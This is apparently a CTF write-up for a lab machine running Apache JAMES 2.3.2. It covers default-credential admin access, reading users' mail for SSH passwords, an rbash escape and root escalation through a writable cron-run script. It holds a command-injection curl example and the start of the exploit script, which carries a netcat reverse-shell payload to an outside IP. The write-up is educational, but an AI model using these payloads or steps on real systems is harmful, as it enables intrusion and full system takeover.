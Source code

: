 curl -X POST -d 'name=shodan' -d 'email=jon@gmail.com' -d 'message=get+out+now' http://localhost/index.html  

/etc/init/ssh.conf  

	
curl "http://localhost/index.html?127.0.0.1;ls&#8221;"  

* .... When you start a chroot environment, you are generally already root, so you don't need to use sudo or su root.  

* When  I first sshed with mindy I was in a "restricted shell" but now I'm in a chroot environment and I think I need to get out of it.
* By default, the server is configured to listen for email transactions on network port 25 and administration transactions on port 4555. And that's what we exactly had on our machine.
<br/><br/>



## How Did I Solve the Machine 

   <img src="https://images.lifesizecustomcutouts.com/image/cache/catalog/febProds21/SP000081-500x500.png" width=200 height=200>   

   1. The port 4555 had an administration interface that would open if I telnet to it and if I use the default credentials of JAMES's administrative interface root/root it will get me in **(Turns out when I log into here I'm james because he's the mail admin)**.
   2. From there I can set the passwords to all the users and check their emails. So while checking you notice that in one of the emails james tells john to give mindy restricted persmissions and to send her default creds for ssh.
   3. So we open mindy's emails to find the username and password for mindy's ssh and this way we can open mindy's ssh.
   4. With the exploit I found for JAMES 2.3.2 we can escape the restricted shell "rbash" with the reverse shell because I'm creating a "bash" shell not an "rbash" which means I escaped the restriction.
   5. So after escaping the restriction and after enumeration and researching chroot more than I should've, I use *pspy* to realize that the root is running a python script that I can freely edit, read and execute.
   6. So I put a python rev shell in it and wait for the root to run it after putting a listening `nc` on another shell. We wait for three minutes and then the root executes the script and I get a rev shell with root privileges.  
   7. This is the script I used for the JAMES exploit  
   
 ```python
 import socket
 import sys
 import time

 # specify payload
 #payload = 'touch /tmp/proof.txt' # to exploit on any user 
 payload = 'nc -c bash 10.10.16.6 1234' # to exploit only on root
 # credentials to James Remote Administration Tool (Default - root/root)
 user = 'root'
 pwd = 'root'

 if len(sys.argv) != 2:
     sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
     sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
     sys.exit(1)

 ip = sys.argv[1]

 def recv(s):
         s.recv(1024)
         time.sleep(0.2)

 try:
     print "[+]Connecting to James Remote Administration Tool..."
     s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
 ```